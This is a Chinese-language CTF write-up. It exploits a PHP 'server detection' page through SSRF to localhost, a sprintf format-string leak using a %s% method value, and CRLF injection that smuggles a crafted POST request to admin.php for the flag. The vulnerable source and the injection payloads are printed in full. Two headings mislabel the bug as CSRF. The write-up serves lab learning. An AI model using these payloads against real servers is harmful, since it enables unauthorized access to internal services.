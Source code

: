 # 服务端检测系统
## 考察知识点：
### 1.ssrf
### 2.crlf注入

### 1.右键点击，查看网页源码发现服务端源码

```
<!-- /admin.php -->

<?php
    if(isset($_POST['method']) && isset($_POST['url']) ){
        $method=$_POST['method'];
        $url=$_POST['url'];

        if(preg_match('/^http:\/\//i',$url)){
            $opts = array(
                'http'=>array(
                    'method'=>$method,
                    'timeout'=>3
                )
            );

//            创建并返回一个资源流上下文，该资源流中包含了 options 中提前设定的所有参数的值。
            $context = stream_context_create($opts);

//            关键代码，无任何限制读取url页面内容，大概率存在ssrf漏洞
            $body = @file_get_contents($url."/anything", false, $context);

            if(isset($http_response_header)){
                preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
                if(isset($matches[1])){
                    echo "服务端支持的请求方法有:".$matches[1];
                }else{
                    echo "failed<br>";
                    echo sprintf("body length of $method%d", $body);
                }

            }else{
                echo "error";
            }
        }else{
            echo 'not allowed';
        }

    }
```

### 2.观察源码存在admin.php页面，访问该页面

![image](images/7AFB4299FA2D4D6AB5778E2615B8EC30服务端检测系统1.png)

但是提示仅仅只有127.0.0.1可以访问，尝试更改xff头绕过，可是行不通。

### 3.根据源码此时已经可以确定这个题，需要用到csrf漏洞

获取其他页面的内容，很符合ssrf的利用方式

参考链接：https://xz.aliyun.com/t/2115

### 3.尝试利用此处的csrf访问admin.php文件

![image](images/642D723FBD634096ABDD56D1C3E75C19服务端检测系统2.png)

发现还是不行，阅读源码

```
if(isset($http_response_header)){
    preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
    if(isset($matches[1])){
        echo "服务端支持的请求方法有:".$matches[1];
    }else{
        echo "failed<br>";
        echo sprintf("body length of $method%d", $body);
    }

}else{
    echo "error";
}
```

`sprintf("body length of $method%d", $body);`这句代码有问题，因为格式化字符串`"body length of $method%d"`

$body为file_get_contents获取网页返回的的字符串，%d是表示int型数据，所以此处返回0，现在的思路就为：

#### 4.让%d变成%s，使file_get_contents获取的admin.php内容能够正常显示

此处的$method参数可控，所以只要把%d给转义掉，再注入%s，就能让其显示$body内容，列如$method传入%s%，那么最后拼接成的便是`body length of %s%%d`,而最后显示的效果就是`echo sprintf("body length of %s", $body);`

![image](images/469515DD0DC845918E116260F3AAD2F8服务端检测系统5.png)

在本地测试，file_get_contents成功获取到admin.php文件内容，并显示在输出的字符串$str中

### 5.虽然此处的method是作为请求方式来去发起http请求的，那么发出的请求包是这样的：
```
%s% /admin.php?/anything HTTP/1.0
Host: 127.0.0.1
```

%s自然是不能作为一个正常的请求头。但是某些中间间可能也会当做GET请求来响应，比如当前环境中会正常返回admin.php页面内容，所以此时将$method改为%s%构造的http报文，也照样可以正常访问

![image](images/8A8E1CF120EF4E79A8361A3E2551C95A服务端检测系统3.png)

### 6.此时就获取到了admin.php文件的内容

观察这里的代码：

发现这⾥⽤的是file_get_contexts()函数来发起HTTP请求，⼀些配置选项包括这⾥的请求⽅式是
作为⼀个数组经过stream_context_create()处理后传⼊的。其实这⾥就存在CRLF注⼊漏洞，即我们可
以完全⾃⼰构造⼀个完整的POST包发出去

crlf注入：https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html

![image](images/EFC4900BE71A4F5481D7C6873021CFA6服务端检测系统4.png)

### 7.$method参数，是我们可控的构造：
```
url=http://127.0.0.1/&method=POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes%26b=%s%
```

content-Length：50自己估算长度

%26=&,用来分隔后面的参数，%S%,因为要返回的数据还是为字符串，所以%s%

![image](images/F9D5D03C2C8B41F7A8673EBF8305C733服务端检测系统6.png)

此时发送的数据包为：

```
POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes&b=%s% 
```

服务器响应了，第二个我们构造的数据包，满足admin.php文件的要求，返回flag

